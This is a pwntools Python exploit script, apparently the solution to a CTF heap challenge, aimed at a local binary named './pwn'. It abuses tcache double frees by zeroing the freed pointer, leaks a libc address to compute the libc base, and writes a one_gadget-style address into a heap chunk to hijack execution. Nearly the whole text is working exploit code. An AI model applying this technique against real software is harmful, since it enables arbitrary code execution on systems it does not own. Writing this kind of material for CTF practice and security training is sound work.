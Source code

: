 ### EXP

```python
from pwn import *
context(log_level='debug')

# p = process(["/lib/x86_64-linux-gnu/ld-2.27.so", "./pwn"], env={"LD_PRELOAD":"./libc.so.6"})
sh = process("./pwn")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
def add(index,size):
	sh.recvuntil(">> \n")
	sh.sendline("1")
	sh.recvuntil(" index\n")
	sh.sendline(str(index))
	sh.recvuntil(" size")
	sh.sendline(str(size))
def delete(index):
	sh.recvuntil(">> \n")
	sh.sendline("2")
	sh.recvuntil(" index\n")
	sh.sendline(str(index))	
def edit(index,content):
	sh.recvuntil(">> \n")
	sh.sendline("3")
	sh.recvuntil(" index\n")
	sh.sendline(str(index))
	sh.recvuntil("content\n")
	sh.send(content)
def show(index):
	sh.recvuntil(">> \n")
	sh.sendline("4")
	sh.recvuntil(" index\n")
	sh.sendline(str(index))
def editname(name):
	sh.recvuntil(">> \n")
	sh.sendline("5")
	sh.recvuntil("ame:\n")
	sh.send(name)
def showname():
	sh.recvuntil(">> \n")
	sh.sendline("6")
add(0,0x20)
add(1,0x30)


for i in range(8):
	delete(0)
	edit(0,p64(0))
for i in range(8):
	delete(1)
	edit(1,p64(0))

gdb.attach(sh)
editname('\x28')
show(0)
addr = u64(sh.recv(6).ljust(8,'\x00'))
print 'addr:'+hex(addr)
libc_base = addr - 0x3ebc28
print 'libc_base:'+hex(libc_base)
add(0,0x20)
add(0,0x20)
edit(0,p64(libc_base+0xe5622))
sh.recvuntil(">> \n")
```
